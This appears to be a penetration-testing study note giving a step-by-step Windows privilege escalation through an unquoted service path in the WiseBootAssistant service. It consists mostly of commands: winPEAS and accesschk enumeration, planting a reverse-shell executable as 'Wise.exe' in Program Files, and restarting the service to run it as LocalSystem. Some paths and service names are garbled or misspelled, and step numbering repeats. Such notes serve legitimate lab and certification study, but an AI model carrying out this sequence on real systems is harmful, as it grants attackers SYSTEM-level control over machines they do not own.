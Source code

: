 1. Run winPEAS to check for service misconfigurations:

```batch - windows
.\winPEASx64.exe quiet servicesinfo
```

2. Note that the “WiseBootAssistant” service has an unquoted path that also contains spaces:

`WiseBootAssistant (WiseCleaner.com - Wise Boot Assistant)[C:\FProgram Files (x86)\ [ \Wise Care 365\BootTime.exe] - Auto - Running - No quotes and Space detected`

3. Confirm this using sc:
```batch - windows
sc qc WiseBootAssitant
```
4. Use accesschk.exe to check for write permissions:

```batch - windows
.\accesschk64.exe /accepteula -uwdq C:\
```

```batch - windows
.\accesschk64.exe /accepteula -uwdq "C:\Program Files (x86)\"
```

```batch - windows
.\accesschk64.exe /accepteula -uwdq "C:\Program Files (x86)\Wise\"
```

5. Copy the reverse shell executable and rename it appropriately:

[[1._Reverse Shells (WIN)#MSFVenom]]

```batch - windows
copy C:\PrivEsc\reverse.exe "C:\Program Files (x86)\Wise\Wise.exe"
```

6. Stop the service

```batch - windows
sc stop WiseBootAssistant
```

```batch - windows
sc query WiseBootAssitant
```

```
...
SERVICE _NAME: WiseBootAssistant 
	TYPE : 110 WIN32_OWN_PROCESS (interactive) 
	STATE : 1 STOPPED
	...
```


6. Start a listener on Kali, and then start the service to trigger the exploit:

![[1._rlwrap]]

```batch - windows
net start WiseBootAssitant
```

Visual example:

```batch - windows
.\winPEAS.exe quiet servicesinfo
```

`WiseBootAssistant(wiseCleaner.com - Wise Boot Assistant)[C:\Program Files (x86)\Wise\Wise Care 365\BootTime.exe] - Auto - Running - No quotes and Space detected miss. :uhers [WriteData/CreateFiles] Possible DLL Hijacking in binary folder: C:\Program Files (x86)\Wise\Wise Care 365 (Users [WriteData/CreateFiles]) In order to optimize system performance,Wise Care 365 will calculate your system startup time.`

```



```batch - windows
sc qc WiseBootAssistant
```


`START_TYPE P2 AUTO_START`
`ERROR_CONTROL i1 NORMAL` 
`BINARY PATH NAME : C:\Program Files (x86)\Wise\Wise Care 365\BootTime.exe` 
`LOAD_ORDER_GROUP : ` 
`TAG : 0` 
`DISPLAY_NAME : Wise Boot Assistant`
`DEPENDENCIES : `  
`SERVICE START_NAME : LocalSystem`

```batch - windows
.\accesschk64.exe /accepteula -ucqv Aaron WiseBootAssistant
```

```batch - windows
.\accesschk.exe /accepteula -uwdq C:\
```

```batch - windows
.\accesschk.exe /accepteula -uwdq "C:\Program Files (x86)\"
```

```batch - windows
.\accesschk.exe /accepteula -uwdq "C:\Program Files (x86)\Wise\"
```

